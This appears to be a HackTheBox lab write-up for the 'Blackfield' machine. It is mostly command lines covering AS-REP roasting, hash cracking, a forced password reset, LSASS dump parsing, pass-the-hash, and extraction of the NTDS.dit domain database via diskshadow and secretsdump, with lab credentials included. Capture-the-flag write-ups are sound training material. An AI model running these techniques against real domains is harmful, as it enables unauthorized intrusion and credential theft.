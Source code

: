 ```yaml
---
layout: post
title: "Blackfield"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


`sudo nmap -sC -sV -p- 10.10.10.192 -oN blackfield -T4 
![[Pasted image 20240528212507.png]]
 looks like a DC  , so let's try to enumerate 
 I tried rpcclient null session , and ldap null session , and tried to look for shares. 
the weird things here is smbclient did show a list of shares , while nxc (using -u ''-p'' )shows that we don't have permission to enumerate the shares .

when dealing with smb shares the best way to enumerate is smbmap

`smbmap -H 10.10.10.192 -u null`
![[Pasted image 20240528215120.png]]

we can read ==profiles$==
seems like list of users , let's create a wordlists with this users and try asreproasting 
![[Pasted image 20240528215355.png]]

`impacket-GetNPUsers Blackfield.local/  -usersfile users.txt	`
![[Pasted image 20240528215859.png]]

let's crack it 
`hashcat -a 0 -m 18200 asreperoasting /usr/share/wordlists/rockyou.txt `
![[Pasted image 20240528220522.png]]

we got support password , let's run bloodhound 
`nxc ldap 10.10.10.192 -u 'support' -p '#00^BlackKnight' -c all --bloodhound -ns 10.10.10.192
`
![[Pasted image 20240528220830.png]]

after uploading it to bloodhound we can see that our user has ==forcechangepassword== over ==audit2020== 

`net rpc password "AUDIT2020" "d0s3nt123@" -U "BLACKFIELD.LOCAL"/"support"%"#00^BlackKnight" -S "DC01.BLACKFIELD.LOCAL"
`
`nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@'  `
![[Pasted image 20240528221919.png]]

let's enumerate shares using this new credentials 
`nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@' --shares
![[Pasted image 20240528222207.png]]`

if we spider this share 
`nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@' --share forencsic -M spider_plus
`
very juicy
![[Pasted image 20240528222511.png]]

after getting the zip and unzip the files , we can use ==pypkatz== to read the contend of the DUMP 
`pypykatz lsa minidump  lsass.DMP
![[Pasted image 20240528222912.png]]
we found couples of hashes but the only that work was ==svc_backup== 
let's see what we can do with it , back to ==bloodhound==

we can get shell using ==evil-winrm== 
![[Pasted image 20240528222958.png]]

`evil-winrm -i 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d'`
![[Pasted image 20240528223137.png]]


this user is part of backup operator group so we can use it to read any files we want on the box 
at first I tried to dump the ==SAM== But the administrator hash on it didn't work
`reg save HKLM\SAM sam`
`reg save HKLM\SYSTEM system`
![[Pasted image 20240528223354.png]]

![[Pasted image 20240528223450.png]]

we can host an smbserver and transfer it very quick 

but the SAM database will not lead us anywhere 

so I tried to dump the ==NTDS==

for that I need to used ==diskshadow.exe== utility
we can use the following script with the diskshadows.exe (I took it  from https://academy.hackthebox.com/module/67/section/601)
![[Pasted image 20240528224528.png]]

before send it to the machine , we need ==unix2dos== so the stupid windows can read our script
![[Pasted image 20240528224701.png]]

![[Pasted image 20240528224753.png]]

`diskshadow.exe /s disk.txt`
![[Pasted image 20240528224954.png]]


![[Pasted image 20240528225012.png]]

we can now host an smbserver and transfer the ==NTDS.dit== easily
then use ==secretsdump to read the NTDS==
`impacket-secretsdump -ntds ntds.dit -system SYSTEM.SAV LOCAL`
![[Pasted image 20240528225243.png]]

![[Pasted image 20240528225358.png]]